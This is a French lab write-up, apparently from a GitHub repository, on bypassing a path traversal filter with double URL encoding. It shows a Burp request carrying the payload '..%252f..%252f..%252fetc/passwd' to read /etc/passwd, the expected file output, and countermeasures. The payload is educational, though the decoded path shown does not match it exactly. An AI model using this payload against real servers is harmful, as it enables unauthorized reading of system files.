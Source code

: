 
# 🧪 Lab 3 - File Path Traversal: Double Décodage URL (Bypass de Filtrage)

---

## 🔍 Description du Lab

Ce lab démontre une variante avancée de la vulnérabilité **Path Traversal**, où l'application :

- Bloque les séquences classiques de traversée (`../`)
- **Décode l’entrée une seconde fois** (double décodage URL) **avant utilisation**

Cette mauvaise gestion du décodage peut être contournée en injectant une **séquence doublement encodée**.

---

## 🎯 Objectif

Récupérer le contenu du fichier **`/etc/passwd`** malgré le filtrage initial.

---

## 🛠️ Outils nécessaires

- ⚔️ **Burp Suite**
- 🧠 Compréhension de l'encodage URL (et sur-encodage)
- 🖥️ Navigateur avec proxy configuré

---

## 🚦 Étapes d’exploitation

### 1. Intercepter une requête d'image

- Utilise Burp pour intercepter une requête `GET` du type :
```

GET /image?filename=product1.jpg HTTP/1.1

```

### 2. Modifier le paramètre `filename`

- Injecte un **double encodage** comme ci-dessous :
```

..%252f..%252f..%252fetc/passwd

````

- `%25` = encodage de `%`
- `%252f` = devient `%2f` après premier décodage = `/` après le second décodage
- Résultat réel après double décodage :
  ```
  ../../../../etc/passwd
  ```

### 3. Lancer la requête

- Le serveur filtre les séquences classiques, **mais ne détecte pas** l’attaque car elles sont **encodées lors du premier passage**.
- Après double décodage, le serveur accède au fichier ciblé.

### 4. Vérifier la réponse

Tu dois voir :


root\:x:0:0\:root:/root:/bin/bash
daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...



✅ Cela confirme que l’exploitation a réussi.


## 📸 Screenshot 

Ajoute ici une capture d’écran de Burp Suite montrant la requête modifiée et la réponse.

![Path-Traversal](https://github.com/Kabilala/path-traversal/blob/main/lab4/lab4.png)



## 🛡️ Contremesures recommandées

- **Décoder une seule fois** les entrées utilisateur
- **Nettoyer les caractères encodés** avant toute utilisation en tant que chemin de fichier
- Utiliser une **liste blanche stricte** des fichiers accessibles
- Interdire **toute forme de chemin relatif ou absolu** passé par l’utilisateur


## 🎓 Concepts clés

| Terme                  | Explication |
|------------------------|-------------|
| `URL Encoding`         | `%2f` = `/` |
| `Double encoding`      | `%252f` = `%2f` après un premier décodage |
| `Bypass technique`     | Utilisation de l'encodage multiple pour contourner les filtres |


